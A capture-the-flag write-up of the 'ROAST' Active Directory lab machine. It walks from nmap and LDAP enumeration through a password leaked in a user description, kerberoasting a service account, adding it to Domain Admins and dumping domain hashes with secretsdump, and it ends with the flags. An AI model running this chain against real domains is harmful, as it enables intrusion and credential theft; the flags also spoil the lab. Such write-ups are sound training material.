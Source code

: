 # ROAST / Active Directory

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/fc670fd62aea42ec903340244f4c8535.png)

## NMAP SCAN

```text
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2021-03-21 18:30:33Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: roast.csl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: roast.csl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: ROAST0
|   NetBIOS_Domain_Name: ROAST0
|   NetBIOS_Computer_Name: ROAST
|   DNS_Domain_Name: roast.csl
|   DNS_Computer_Name: Roast.roast.csl
|   DNS_Tree_Name: roast.csl
|   Product_Version: 10.0.17763
|_  System_Time: 2021-03-21T18:31:26+00:00
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49672/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49673/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49677/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49699/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49762/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

## KERBEROS ENUMERATION

```bash
kerbrute -users /usr/share/seclists/Usernames/xato-net-10-million-usernames-dup.txt -domain roast.csl -dc-ip 172.31.3.2
```

* I STOPED BECAUSE WE HAVE THE USERS IN LDAP ENUMERATION

## LDAP ENUMERATION

```text
nmap -n -sV --script "ldap* and not brute" 172.31.3.2 -Pn
```

```text
dn: CN=David Smith,OU=Roast,DC=roast,DC=csl
|         objectClass: top
|         objectClass: person
|         objectClass: organizationalPerson
|         objectClass: user
|         cn: David Smith
|         sn: Smith
|         description: Your Password is WelcomeToR04st
|         givenName: David
|         distinguishedName: CN=David Smith,OU=Roast,DC=roast,DC=csl
|         instanceType: 4
|         whenCreated: 2020/05/15 06:30:43 UTC
|         whenChanged: 2020/05/15 21:42:47 UTC
|         displayName: David Smith
|         uSNCreated: 16572
|         uSNChanged: 32799
|         name: David Smith
|         objectGUID: 95a9772-f36-7344-9cc1-53d257cf635e
|         userAccountControl: 66048
|         badPwdCount: 1
|         codePage: 0
|         countryCode: 0
|         badPasswordTime: 2021-03-21T22:48:27+00:00
|         lastLogoff: 0
|         lastLogon: 2020-05-18T02:52:56+00:00
|         logonHours: \xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF
|         pwdLastSet: 2020-05-16T01:50:11+00:00
|         primaryGroupID: 513
|         objectSid: 1-5-21-4133422454-1522376082-951199702-1103
|         accountExpires: Never
|         logonCount: 1
|         sAMAccountName: dsmith
|         sAMAccountType: 805306368
|         userPrincipalName: dsmith@roast.csl
```

```text
dsmith:WelcomeToR04st
```

### USERS

```text
dsmith
crhodes
ssmith
```

## LOGIN EVIL-WINRM

* THE PASSWORD WORKS WITH CRHODES

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/44b34fed834147df807465c56dcfa49e.png)

## WINPEAS

* UPLOAD WINPEAS

```text
upload /opt/priv/winPEASx64.exe
```

* NOTHING INTERESTED

## BLOODHOUND

```text
upload /opt/priv/sharphound.exe

download 20210321120445_BloodHound.zip
```

```text
Find Shortest Paths to Domain Admins
```

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/323c26014de8493fac7a46c133250f45.png)

```text
List all Kerberoastable Accounts
```

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/15a74293a74e4cefb880d98ac3dfe149.png)

```text
Shortest Paths to Domain Admins from Kerberoastable Users
```

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/f2c9892a02a14d67aa537263688983c2.png)

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/7c0b96104269451b99c76119b14e0d11.png)

## GET USER ROASTSVC

```text
GetUserSPNs.py -dc-ip 172.31.3.2 roast.csl/crhodes -debug
```

* WE CAN REQUEST ROASTSVC

```text
GetUserSPNs.py -dc-ip 172.31.3.2 -request roast.csl/crhodes -outputfile hash
```

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/1746ee33e21b4f60afe3a67de4e5b907.png)

```text
roastsvc:!!!watermelon245
```

### LOGIN WITH EVIL-WINRM

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/84259dbc77874b7daf1a49d6c893fc1f.png)

### PRIV ESC

```text
net group "Domain Admins" roastsvc /add /domain
```

### DUMPING HASHES

```text
secretsdump.py roast.csl/roastsvc:'!!!watermelon245'@172.31.3.2
```

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f6861a8cfc1c3b9f3ff39a8adb6bd388:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:016e928748d559770ee5fe3028baf718:::
roast.csl\dsmith:1103:aad3b435b51404eeaad3b435b51404ee:a0a8160111b21d48d2e816f4cc8da053:::
roast.csl\crhodes:1104:aad3b435b51404eeaad3b435b51404ee:a0a8160111b21d48d2e816f4cc8da053:::
roast.csl\ssmith:1105:aad3b435b51404eeaad3b435b51404ee:23991f3cd665b0bc1f7cccfd62506161:::
roast.csl\roastsvc:1106:aad3b435b51404eeaad3b435b51404ee:2f77331cfd7b2142b3a86a7d2ce7e824:::
```

## ADMINISTRATOR LOGIN

![](https://github.com/TheLivestep/WRITEUPS/blob/master/.gitbook/assets/817e620cafaf48c9a69cab1dfbb3774f.png)

## FLAGS

### USER

```text
0042894e0a6b2bc2c4517c5f7ccc5c16
```

### ROOT

```text
9d91f887b78d82444a5af8bbd0d115db
```

